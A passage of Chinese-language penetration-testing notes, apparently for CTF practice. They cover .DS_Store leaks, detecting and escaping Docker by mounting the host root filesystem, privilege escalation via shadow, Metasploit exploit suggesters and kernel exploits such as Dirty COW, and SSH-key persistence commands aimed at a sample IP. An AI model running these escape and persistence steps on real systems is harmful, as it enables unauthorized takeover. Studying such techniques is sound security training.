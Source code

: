 .DS_Store 文件利用 .DS_Store 是 Mac OS
保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。

(有些题写的是update上传，其实可能是sqli注意分析)

如果我们渗透进去看见有/.dockerenv文件，再查看/proc/1/cgroup
有没有docker字符有的话就可能进入了docker环境使用我们要逃逸出这个docker环境

**提权**

shadow提权

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image57.png){width="5.760416666666667in"
height="2.3421478565179354in"}

docker提权

docker pull alpine

docker run -v /:/mnt -it alpine

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image58.png){width="5.760416666666667in"
height="0.6849682852143482in"}

环境变量提权：

msf提权

可先利用enum_patches模块shou

msf使用 post/multi/recon/local_exploit_suggester模块

windows使用local_exploit_suggester模块，指定低权限用户的session，进行本地提权

post/multi/recon/local_exploit_suggester

使用mteasploit保持权限控制

use post/linux/manage/sshkey_persistence

不过要降低私钥链接的权限 600
，如果使用不成功说明是/root/.ssh可能没创建或者权限不够需自己分析

或者使用这个模块就不需要加权限和记文件名

use auxiliary/scanner/ssh/ssh_login_pubkey

set rhosts 192.168.1.190

set key_path /root/.msf4/loot/

set username test

run

内核提权

uname -r 脏牛等

当然可以在kali上编译完后再转移到靶机执行，如果没权限就自己chmod加权限

**本地任务提权**

